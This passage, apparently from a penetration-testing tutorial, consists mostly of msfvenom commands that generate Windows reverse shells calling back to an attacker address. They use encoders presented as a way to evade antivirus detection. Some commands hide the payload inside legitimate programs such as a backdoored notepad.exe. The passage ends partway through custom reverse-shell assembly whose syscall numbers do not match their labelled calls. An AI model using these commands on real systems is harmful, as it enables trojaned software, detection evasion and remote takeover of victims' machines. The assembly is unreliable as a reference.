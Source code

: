 ```bash
# Python format with encoding
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -f python

# PowerShell format with encoding
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -f psh

# Template injection for stealth
# Inject payload into legitimate executable
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -x /path/to/template.exe -k -f exe -o injected.exe
# -x: Template executable
# -k: Keep template functionality

# Custom template with specific properties
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -x notepad.exe -k -f exe -o notepad_backdoor.exe

# Why advanced encoding is necessary:
# - Bypasses signature-based detection
# - Handles environment-specific character restrictions
# - Provides polymorphic behavior
# - Template injection maintains legitimacy
# - Multiple iterations increase evasion probability
```

### **Custom Payload Development**

**What custom payloads provide:** Tailored solutions for specific environments, advanced evasion techniques, and specialized functionality not available in standard payloads.

```bash
# Custom shellcode development process
# Step 1: Write assembly code for specific functionality
cat > custom_shell.asm << 'EOF'
section .text
global _start

_start:
    ; Custom reverse shell assembly code
    ; Socket creation
    push 0x2
    pop eax
    cdq
    push 0x1
    pop ebx
    push 0x6
    pop ecx
    int 0x80  ; sys_socket
    
    ; Connection setup
    mov edi, eax  ; save socket fd
    push 0x0100007f  ; IP address (127.0.0.1)
    push word 0x5c11  ; Port 4444
    push 0x2
    mov ecx, esp
    push byte 0x10
    push ecx
    push edi
    mov al, 0x3
    int 0x80  ; sys_connect
    
    ; Duplicate file descriptors
    xor ecx, ecx
    mov cl, 0x2
```